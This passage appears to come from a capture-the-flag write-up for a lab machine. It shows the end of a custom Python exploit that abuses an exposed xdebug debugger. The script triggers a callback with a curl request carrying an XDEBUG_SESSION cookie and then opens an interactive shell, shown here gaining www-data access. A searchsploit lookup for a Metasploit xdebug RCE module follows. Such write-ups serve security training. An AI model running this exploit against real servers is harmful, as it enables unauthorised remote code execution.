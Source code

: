 ```python
         response = connection.recv(4096).decode('utf-8')
         
         # Check for empty response
         if not response:
            print("[-] Connection closed.")
            break
         # Decode and print the response 
         print(parse_xdebug_response(response))
      except (socket.error, ConnectionResetError) as e:
         print(f"[-] Connection error: {e}")
         break
      except KeyboardInterrupt:
         print("\nExiting interactive shell.")
         break

   # Close the connections
   connection.close()
   sk.close()

if __name__ == "__main__":
   xdebug_host = '0.0.0.0'
   xdebug_port = 9000
   target_host = input("[*] Target IP: ")
   init = 'curl http://' + target_host + ' -H "Cookie: XDEBUG_SESSION=olympus"'
   xdebug_shell(xdebug_host, xdebug_port, init)
```

This custom script, will create for us an interactive shell.

```bash
┌──(kali㉿kali)-[~]
└─$ python exploit.py
[*] Target IP: 10.129.124.136
[*] Connecting to 0.0.0.0:9000 ...
[*] Initializing debugging: curl http://10.129.124.136 -H "Cookie: XDEBUG_SESSION=olympus"
[*] Connection to ('10.129.124.136', 36354) established.
$ whoami
www-data
```

### Automated Exploitation

Since the version is known, searching for exploits using `searchsploit`, reveals an RCE (Remote Code Execution) vulnerability.

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit xdebug        
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------
xdebug < 2.5.5 - OS Command Execution (Metasploit)                                      | php/remote/44568.rb
---------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
